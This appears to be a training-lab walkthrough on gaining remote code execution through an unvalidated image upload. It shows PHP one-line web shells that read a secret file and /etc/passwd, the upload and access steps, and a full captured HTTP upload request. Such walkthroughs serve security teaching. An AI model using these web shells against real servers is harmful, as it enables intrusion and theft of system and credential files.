 # Remote code execution via web shell upload

## This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

## To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

## You can log in to your own account using the following credentials: `wiener:peter`

<?php echo file_get_contents('/path/to/target/file'); ?>
<?php echo file_get_contents('/home/carlos/secret'); ?>

### step1

login using uername and password
upload image
and open image using right click on avatar

https://0a07008a0314cec2c0804f6500ec004f.web-security-academy.net/files/avatars/Screenshot.png

### step2

upload

<?php echo file_get_contents('/home/carlos/secret'); ?>

this code as test as test.php
now
https://0a07008a0314cec2c0804f6500ec004f.web-security-academy.net/files/avatars/test.php
you will get this secret code
ced1FZfjQHONoZWguqkBA63296QgpE2x

submit and solved the lab

## we can test this on repeater as well

POST /my-account/avatar HTTP/1.1
Host: 0a09001b037378d1c340c5240047000e.web-security-academy.net
Cookie: session=pgXZMQWGcfzMLRxWNZnx42mXpdTyNEHC
Content-Length: 327475
Cache-Control: max-age=0
Sec-Ch-Ua: "Not A(Brand";v="24", "Chromium";v="110"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a09001b037378d1c340c5240047000e.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypT9LSMVRq0q0kkdq
User-Agent: Mozilla/5.0 (X11; Linux x86*64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/\_;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a09001b037378d1c340c5240047000e.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundarypT9LSMVRq0q0kkdq
Content-Disposition: form-data; name="avatar"; filename="Screenshot_2022-12-16_03_42_29.png"
Content-Type: image/png

------WebKitFormBoundarypT9LSMVRq0q0kkdq
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarypT9LSMVRq0q0kkdq
Content-Disposition: form-data; name="csrf"

0V9jAe3n3kflmgp5ShE0UlVSukOuKy7U
------WebKitFormBoundarypT9LSMVRq0q0kkdq--

---

remvove image data then add

<?php echo file_get_contents('/etc/passwd'); ?>

![screenshot](./images/lab1_etc_password_test_repeater.png)

![screenshot](./images/lab1_exploit_php_test.png)

![screenshot](./images/lab1_home_carlos_secret.png)

![screenshot](./images/lab1_secrete_code.png)
